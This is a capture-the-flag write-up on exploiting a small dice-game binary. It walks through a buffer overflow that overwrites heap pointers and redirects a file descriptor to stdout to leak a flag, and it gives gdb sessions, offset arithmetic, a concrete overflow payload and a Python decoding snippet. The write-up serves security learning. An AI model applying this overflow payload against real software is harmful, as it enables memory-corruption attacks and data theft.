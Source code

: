 # A program can hide another

### Static analysis

We can see different functions in the code but they don't seem to allow any exploitation. When we launch the program, we're inform that there is a secret and we know it's location. The goal of this challenge will be to get this secret. By analysing the code, we find that the secret is the content of the flag.txt file. Obviously, this file isnt readable, we'll have to find a way to get its data.

We can notice that a lot of data is stored on the heap, so we won't be able to modify their value with a buffer overflow. However, we can modify the pointers address if a buffer overflow is feasible. We have indeed a 24 bytes long buffer to store the player name below the pointers. and for a weird reason, the program allows the iser to input `sizeof(int) * 12` bytes, which is equal to 48. So we have 24 bytes available for the overflow. it isn't enough to overwrite the return address so we can just modify pointers address. We will deal with that.

The program is quite simple, the player has 50 coins and each game costs one coin. He can play a total of 50 games. At the end of each game, result are stored in a file *player_data.txt* This result are obtained wth a format string to get the decimal value of `games[*current]`. A game counter is also present.

If we think in a more abstract way, the program write into a file one byte of a buffer.
We want to get the flag, or to print all bytes of the buffer containing the flag. The logic is quite similar, and by changing the pointers, we will perform a data oriented programming attack and leak the flag.

We wish that `games` becomes `flag`, and `current` `games_played` (an incremental counter from 0). With that the flag will be written in *player_data.txt*. But an issue remain: we can't read *player_data.txt* ! We need to redirect the output into a file that we can read, and a trivial one is the **stdout** whose the file descriptor is **1**. We need to overwrite the file descriptor number of the history file by **1** to write our flag directly in the terminal.

But `history` is a pointer so we can't change its fields value. However, we can change one pointer value: `difficulty`. If we change the address of `difficulty` to the address of the file descriptor in `history`, we will eb able to change the output !

To exploit the program we'll need to write bytes during the program execution. However we cannot do that with a classic execution. A solution is set as the program input the output of a new shell, which with we'll be able to write bytes. In order to do that we can simply execute `sh | ./chall2`.


### Dynamic analysis

Let's continue the analysis with gdb. Because when we do `sh | ./chall2` we add some new environment variables modifying the addresses, we need to execute gdb in the same environment with `sh | gdb ./chall2`. You must also create a fake flag.txt if you don't want the program crashes.

Let's put a breakpoint after opening the history file, line 156: `echo "b 156"` (don't forget, we're in a shell !). Then run `echo r`.

Fortunately, we know the flag address, so we can calculate the address of our variables relatively to it. We must find the addresses of
 * flag
 * game_player
 * history file descriptor

and calculate the position in the stack compared to the buffer of:
 * games
 * current
 * difficulty
 
We can know execute the following commands:

```
gdb-peda$ echo "p flag"
sh-5.1$ $1 = 0x5655a1a0 "my_fake_flag"
gdb-peda$ echo "p &player->games_played"
sh-5.1$ $2 = (int *) 0x5655a1b8
gdb-peda$ echo "p &history->_fileno"
sh-5.1$ $3= (int *) 0x5655c788
gdb-peda$ echo "p &player_name"
sh-5.1$ $4 = (char (*)[24]) 0xffffcf18
gdb-peda$ echo "p &games"
sh-5.1$ $5 = (int **) 0xffffcf40
gdb-peda$ echo "p &current"
sh-5.1$ $6 = (int **) 0xffffcf3c
gdb-peda$ echo "p &difficulty"
sh-5.1$ $7 = (int **) 0xffffcf38
```

`flag` is at the same address as given at the begining so all is good.

With python, gdb or another tool we can calculate the offsets.

*0xffffcf38-0xffffcf18 = 32* So we need 32 bytes of padding and 16 bytes to overwrite the addresses. Exactly what we dispose !

### Exploitation

Lets run the challenge:

```
sh | ./chall2 
Welcome player ! A secret is hidden at 0x575571a0 but there's no way you can find it ahah !

sh-5.1$
```

flag is at 0x575571a0 so let's calculate the other addresses:
 * **player->games_played** is at 0x575571b8 (only the lowest byte differs and flag lowest byte is the same as in gdb)
 * **history->_fileno** is at 0x5655c788 - 0x5655a1a0 + 0x575571a0 = 0x57559788

We can inject our payload: 
`echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x88\x97\x55\x57\xb8\x71\x55\x57\xa0\x71\x55\x57"`

Set the difficulty (file descriptor) to 1: `echo 1`

And then perform some loops by repeating `echo 1` to be  quick for example

```
echo 1
sh-5.1$ Choose a number between 1 and 6

echo 1
sh-5.1$ >> 
The dice rolls and...
It's a 5 !
Sorry, bad number... Try again
Choose a game:
        1 - Roll the dice
        2 - More or less
        3 - Quit

>>
...
```

Then quit: `echo 3` and...

```
sh-5.1$ echo 3
sh-5.1$ 863008053;859135858;926118499;879519327;2171239;44;6;1449128395;0;
```

It isn't a flag ! It is because the format string interpret each data with its decimal value. We can notice that the format string takes an int so the flag is read 4 bytes by 4 bytes (in little endian).

We can decode the flag using python:

```python
>>> b"".join(
    bytes.fromhex(hex(int(n))[2:])[::-1]
    for n in "863008053;859135858;926118499;879519327;2171239".split(';')
)
b'5up3r_53cr37_fl4g!!'
```
